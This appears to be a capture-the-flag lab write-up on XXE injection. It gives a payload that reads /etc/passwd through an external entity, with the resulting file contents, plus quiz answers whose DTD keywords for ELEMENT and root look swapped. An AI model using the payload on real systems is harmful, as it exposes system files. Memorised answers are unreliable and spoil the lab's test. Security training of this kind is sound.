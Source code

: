## Answer the questions below

27.How do you define a new ELEMENT?
>>!DOCTYPE

28.How do you define a ROOT element?
>>!ELEMENT

29.How do you define a new ENTITY?
>>!ENTITY

----

# Task 15 [Severity 4] XML External Entity - XXE Payload
----

>>Now we'll see some XXE payload and see how they are working.

1) The first payload we'll see is very simple. If you've read the previous task properly then you'll understand this payload very easily.
```xml
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>
```

>>As we can see we are defining a ENTITY called name and assigning it a value feast. Later we are using that ENTITY in our code.

2) We can also use XXE to read some file from the system by defining an ENTITY and having it use the SYSTEM keyword
```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

>>Here again, we are defining an ENTITY with the name read but the difference is that we are setting it value to `SYSTEM` and path of the file.

>>If we use this payload then a website vulnerable to XXE(normally) would display the content of the file /etc/passwd.

>>In a similar manner, we can use this kind of payload to read other files but a lot of times you can fail to read files in this manner or the reason for failure could be the file you are trying to read.

```bash
# Using this payload and getting the /etc/passwd 

<?xml version='1.0'?>
<!DOCTYPE root [<!ENTITY read SYSTEM "file:///etc/passwd">]>
<root>&read;</root>

root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin 
sys:x:3:3:sys:/dev:/usr/sbin/nologin 
sync:x:4:65534:sync:/bin:/bin/sync 
games:x:5:60:games:/usr/games:/usr/sbin/nologin 
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin 
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin 
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin 
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin 
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin 
```
